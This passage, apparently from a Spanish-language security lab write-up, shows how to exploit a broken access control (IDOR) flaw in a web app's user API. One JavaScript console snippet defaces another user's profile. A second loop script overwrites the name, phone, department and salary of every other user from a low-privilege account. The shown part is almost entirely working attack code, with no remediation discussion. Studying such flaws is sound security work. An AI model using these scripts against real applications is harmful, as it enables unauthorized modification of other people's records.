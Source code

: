 ### 💥 **Formas de Explotación**

#### **Método 1: Interceptar y Modificar via DevTools**

**Usando las herramientas de desarrollador:**
1. Login como `jaranguiz` (ID: 2)
2. Ir al perfil de otro usuario via URL: `/profile/3`
3. Intentar editar el perfil (si el UI lo permite)
4. O ejecutar directamente en console:

```javascript
// Modificar perfil de James (ID: 3) desde la cuenta de jaranguiz (ID: 2)
api.updateUser(3, {
  fullName: "James HACKEADO por Juan",
  phone: "+56-555-HACKED",
  department: "Departamento Comprometido",
  salary: 1
}).then(() => {
  console.log("✅ Perfil de James modificado exitosamente");
}).catch(err => {
  console.log("❌ Error:", err.message);
});
```

#### **Método 2: Script Masivo de Modificación**
```javascript
// Script para modificar múltiples perfiles
const maliciousUpdate = {
  fullName: "USUARIO HACKEADO",
  phone: "+56-555-PWNED",
  department: "SECURITY BREACH",
  salary: 1
};

const modifyAllUsers = async () => {
  const currentUser = api.decodeCurrentToken();
  console.log(`Atacando desde usuario: ${currentUser?.username}`);
  
  for (let targetId = 1; targetId <= 4; targetId++) {
    if (targetId === currentUser?.id) {
      console.log(`⏭️ Saltando usuario propio (ID: ${targetId})`);
      continue;
    }
    
    try {
      await api.updateUser(targetId, maliciousUpdate);
      console.log(`✅ Usuario ${targetId} modificado exitosamente`);
    } catch (error) {
      console.log(`❌ Falló modificar usuario ${targetId}: ${error.message}`);
    }
  }
  
  console.log("🏁 Ataque completado");
};

// Ejecutar ataque
modifyAllUsers();
```

